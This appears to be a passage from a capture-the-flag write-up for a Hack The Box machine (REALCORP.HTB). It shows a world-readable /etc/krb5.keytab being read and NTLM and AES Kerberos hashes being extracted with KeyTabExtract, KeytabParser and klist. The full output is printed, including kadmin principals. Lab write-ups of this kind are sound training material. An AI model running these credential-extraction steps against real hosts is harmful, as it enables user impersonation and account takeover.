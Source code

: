 That **/etc/krb5.keytab** should only be readable and writable by root, but we can read it. This file allows to authenticate and to impersonate users [here](https://www.blackhat.com/presentations/bh-europe-09/Bouillon/BlackHat-Europe-09-Bouillon-Taming-the-Beast-Kerberous-whitepaper.pdf) <br>

Found these hashes with [this](https://github.com/sosdave/KeyTabExtract)

```bash
./keytabextract.py krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : REALCORP.HTB
        SERVICE PRINCIPAL : host/srv01.realcorp.htb
        NTLM HASH : 771699676e1d3729e9ce6e278084a2e1
        AES-256 HASH : 95910155bd1f1925ca8aba96e0fbdb0f37a179a4c0226b12b9820be15e122e01
        AES-128 HASH : c62b475bf094d6f0045c477704adb49e
```

We can also extract more information with [KeytabParser.py](https://github.com/its-a-feature/KeytabParser) and **klist**
```bash
# KeytabParser

cmd: python2.7 KeytabParser.py krb5.keytab

17729
{
    "host/srv01.realcorp.htb@REALCORP.HTB": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96", 
                "Key": "lZEBVb0fGSXKirqW4PvbDzeheaTAImsSuYIL4V4SLgE=", 
                "KeyLength": 32, 
                "Time": "2020-12-08 22:15:30"
            }
        ]
    }
}

# Klist
cmd: klist -k krb5.keytab

Keytab name: FILE:krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```
I found this information extraction at [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#extract-accounts-from-etckrb5keytab) <br>
